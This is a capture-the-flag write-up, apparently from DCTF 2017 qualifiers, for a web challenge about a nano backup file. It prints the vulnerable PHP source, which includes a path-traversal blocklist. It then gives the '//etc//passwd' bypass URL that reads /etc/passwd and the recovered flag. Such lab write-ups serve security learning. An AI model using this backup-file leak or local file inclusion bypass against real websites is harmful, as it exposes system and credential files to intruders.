 WEB 1 :
-------


Is nano good? (Junior - 2 pcts.)
--------------------------------




----------


This is our new admin platform interface. Can you test it? 
[Visit website](https://junior2.dctf-quals-17.def.camp/?page=theme/admin/login) 


----------


https://junior2.dctf-quals-17.def.camp/?page=theme/admin/login



from title of the challenge (nano) , I added ~ to index.php 


https://junior2.dctf-quals-17.def.camp/index.php~ 



i get the source code of the page 




```php

<?php
$page = $_GET["page"];
$type = $_GET["type"];
if (strpos($page, './../') !== false){
	header("Location: https://www.youtube.com/watch?v=dQw4w9WgXcQ");
	die();
}

if (strpos($page, '..././') !== false){
	header("Location: http://leekspin.com/");
	die();
}

if (strpos($page, '%') !== false){
	header("Location: http://www.nyan.cat/");
	die();
}

if (strpos($page, 'fille') !== false){
	header("Location: https://www.youtube.com/watch?v=o1eHKf-dMwo");
	die();
}

if (strpos($page, '/etc/passwd') === 0) {
	header("Location: https://www.youtube.com/watch?v=djV11Xbc914");
	die();
}
# I wonder if I can bypass path traversal restriction by going back and forward within the directorys....
if ($type == ""){
	echo file_get_contents($page.".php");
} else {
	#maybe we need something from the website 
	echo file_get_contents($page); 
}
?>

```



by this source we see LFI and filtres on $page and conditions , 

/ = //

type = value

 parameters :

https://junior2.dctf-quals-17.def.camp/?type=a&page=//etc//passwd



    DCTF{7569fd:x:1001:1001::/home/DCTF{7569fd: 4bf5b7ded2f:x:1002:1002::/home/4bf5b7ded2f: c48b33a7972:x:1003:1003::/home/c48b33a7972: c0752d13db4:x:1004:1004::/home/c0752d13db4: 32ff9930a99:x:1005:1005::/home/32ff9930a99: 6c567ea3321:x:1006:1006::/home/6c567ea3321: 13b}:x:1007:1007::/home/13b}: 

flag : 
DCTF{7569fd4bf5b7ded2fc48b33a7972c0752d13db432ff9930a996c567ea332113b}


